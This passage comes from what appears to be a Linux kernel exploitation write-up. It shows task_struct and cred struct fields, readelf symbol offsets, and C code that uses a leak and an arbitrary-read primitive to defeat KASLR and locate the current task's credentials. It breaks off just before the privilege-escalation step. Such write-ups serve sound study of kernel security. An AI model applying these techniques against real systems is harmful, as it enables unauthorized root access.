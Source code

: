 ```c
	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;

#ifdef CONFIG_KEYS
	/* Cached requested key. */
	struct key			*cached_requested_key;
#endif

	/*
	 * executable name, excluding path.
	 *
	 * - normally initialized setup_new_exec()
	 * - access it with [gs]et_task_comm()
	 * - lock it with task_lock()
	 */
	char				comm[TASK_COMM_LEN];

[truncated]

struct cred {
[truncated]
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
[truncated]
```
You can have a look at their full structure. [task_struct](https://elixir.bootlin.com/linux/v5.13.12/source/include/linux/sched.h#L657) [cred](https://elixir.bootlin.com/linux/latest/source/include/linux/cred.h#L110)
task_struct is stored at a fixed offset (`current_task`) from `__per_cpu_offset`. The `__per_cpu_offset` is an array of pointers to addresses which is fixed for a cpu but is subjected to kaslr (meaning it has a fixed offset from kernel base).
```
# readelf -Ws ./vmlinux_elf| grep -E '__per_cpu_offset| current_task'
 92101: 0000000000016d00     0 OBJECT  GLOBAL DEFAULT  ABS current_task
118643: ffffffff824176a0     0 OBJECT  GLOBAL DEFAULT    2 __per_cpu_offset                     
```
So, the address of task_struct of current process is `*(*__per_cpu_offset[0]+0x16d00)`.
```c
int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
}
```
You can have a look at [this](https://github.com/slavaim/linux-notes/blob/master/current_task.md) for clearing things.
Let's get to actual exploitation now.
